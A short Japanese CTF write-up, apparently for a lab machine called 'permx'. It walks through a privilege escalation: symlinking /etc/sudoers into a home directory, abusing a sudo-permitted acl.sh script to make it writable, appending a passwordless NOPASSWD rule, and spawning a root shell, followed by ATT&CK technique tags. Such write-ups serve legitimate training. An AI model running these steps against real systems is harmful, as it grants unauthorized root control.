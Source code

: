 
rootでないユーザーは編集はできないと
```bash
mtz@permx:~$ ls -la /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5  2024 /opt/acl.sh

```

シンボリックリンクを作成
`/etc/sudoers`ファイルを指すシンボリックリンクを作成します。このリンクは`mtz`ユーザーのホームディレクトリに作られる
```bash
mtz@permx:~$ ln -s /etc/sudoers root

```

`acl.sh`スクリプトを使用して権限を変更
シンボリックリンクで指定したファイルに`mtz`ユーザーが読み取り・書き込み権限を持つように設定
```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/root

```

`/etc/sudoers`ファイルを編集
シンボリックリンクを通じて`/etc/sudoers`ファイルに以下の行を追加
`mtz`ユーザーはパスワードなしで任意のコマンドをrootとして実行可能にする
```bash
mtz@permx:~$ echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

root権限でシェルを取得
```bash
mtz@permx:~$ sudo bash

```



- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...



---

## Notes

- **Tactics**:
    - #Tactic_永続化
    - #Tactic_防御回避
- **Techniques**:
    - #T1098_アカウント操作
    - #T1553_信頼制御の転覆
    - #T1070_ホスト上の痕跡削除
    - その他のPersistence/Defense Evasion関連技術...
